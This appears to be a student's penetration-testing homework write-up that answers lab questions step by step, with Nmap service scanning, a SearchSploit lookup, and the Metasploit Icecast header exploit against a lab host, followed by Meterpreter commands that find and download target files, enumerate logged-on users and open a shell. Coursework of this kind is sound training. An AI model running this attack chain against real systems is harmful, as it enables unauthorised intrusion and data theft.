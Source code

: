 # **Brian C Williams 17-Penetration II Homework** # 

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

Run the Nmap command that performs a service and version scan against the target.

**Answer: nmap -sV 192.168.0.20**

![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)


From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast windows

[image of q2]()


Now that we know which exploits are available to us, let's start Metasploit:



Run the command that starts Metasploit:

Answer: msfconsole -u
		msfconsole 

Search for the Icecast module and load it for use.

image

Run the command to search for the Icecast module:

Answer: search icecast

image

Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use exploit/windows/http/icecast_header
		use 0




Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: set RHOST 192.168.0.20





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run or exploit



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f  *secretfile.txt


You should now have a Meterpreter session open.


Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt



Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt



You can also use Meterpreter's local exploit suggester to find possible exploits.

run post/multi/recon/local_exploit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users

		
		

B. Open a Meterpreter shell and gather system information for the target.

Answer: shell 
		systeminfo
		
		

C. Run the command that displays the target's computer system information:

Answer: sysinfo

